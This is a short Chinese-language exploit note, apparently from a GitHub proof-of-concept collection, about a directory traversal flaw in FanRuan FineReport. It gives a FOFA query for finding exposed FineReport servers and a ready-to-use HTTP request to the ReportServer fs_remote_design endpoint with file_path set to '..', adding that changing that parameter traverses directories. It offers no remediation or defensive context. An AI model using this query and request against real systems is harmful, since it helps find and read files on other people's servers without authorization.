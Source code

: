 # 帆软 FineReport 目录遍历漏洞
## 资产收集
fofa:`app="帆软-FineReport"`
### POC
```http
http://localhost:8080/WebReport/ReportServer?op=fs_remote_design&cmd=design_list_file&file_path=..&currentUserName=admin&currentUserId=1&isWebReport=true
```
修改file_path参数即可目录遍历
![](./img/dir.png)  
